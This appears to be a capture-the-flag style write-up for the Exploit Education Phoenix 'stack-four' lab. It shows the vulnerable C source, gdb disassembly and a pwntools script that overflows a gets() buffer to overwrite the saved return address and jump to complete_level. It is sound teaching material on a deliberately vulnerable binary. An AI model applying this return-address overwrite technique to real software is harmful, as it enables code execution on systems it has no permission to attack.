 ```yaml
---
title: "Binary Exploitation | Exploit Education | Phoenix Stack Four"
permalink: "binary-exploitation/exploit-education-phoenix/:title"
layout: post
---
```

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

The goal of this level is to overwrite the return address of **start_level** function to return to **complete_level** function instead of **main**.

First we get the address of **complete_level** function:

```
$ gdb -q /opt/phoenix/amd64/stack-four
Reading symbols from /opt/phoenix/amd64/stack-four...(no debugging symbols found)...done.

gef➤  print complete_level 
$1 = {<text variable, no debug info>} 0x40061d <complete_level>
```

So we must overwrite **RIP** with the address  **0x40061d**.

```
gef➤  disassemble start_level 
Dump of assembler code for function start_level:
   0x0000000000400635 <+0>:	push   rbp
   0x0000000000400636 <+1>:	mov    rbp,rsp
   0x0000000000400639 <+4>:	sub    rsp,0x50
   0x000000000040063d <+8>:	lea    rax,[rbp-0x50]
   0x0000000000400641 <+12>:	mov    rdi,rax
   0x0000000000400644 <+15>:	call   0x400470 <gets@plt>
   0x0000000000400649 <+20>:	mov    rax,QWORD PTR [rbp+0x8]
   .....
```

So to overwrite **RIP** we must enter (0x50 junk + 8 bytes for RBP + address of **complete_level**).

```
gef➤  b *0x0000000000400649
Breakpoint 1 at 0x400649

gef➤  r <<< $(python solve.py)
Starting program: /opt/phoenix/amd64/stack-four <<< $(python solve.py)
Welcome to phoenix/stack-four, brought to you by https://exploit.education
Breakpoint 1, 0x0000000000400649 in start_level ()
......

gef➤  info registers rbp
rbp            0x7fffffffe630      0x7fffffffe630

gef➤  x/12xg $rsp
0x7fffffffe5e0:	0x4141414141414141	0x4141414141414141
0x7fffffffe5f0:	0x4141414141414141	0x4141414141414141
0x7fffffffe600:	0x4141414141414141	0x4141414141414141
0x7fffffffe610:	0x4141414141414141	0x4141414141414141
0x7fffffffe620:	0x4141414141414141	0x4141414141414141
0x7fffffffe630:	0x4242424242424242	0x000000000040061d
```

Here we can see that **RBP** was overwritten to  0x4242424242424242 and after it is the value of **RIP** 0x000000000040061d which is the address of **complete_level** function.

# Solution:

```python
# solve.py

from pwn import *

buff = ""
buff += 'A'*80			# junk
buff += 'BBBBBBBB'		# RBP value
buff += p64(0x40061d)		# RIP value

print(buff)
```

```
$ python solve.py | /opt/phoenix/amd64/stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
```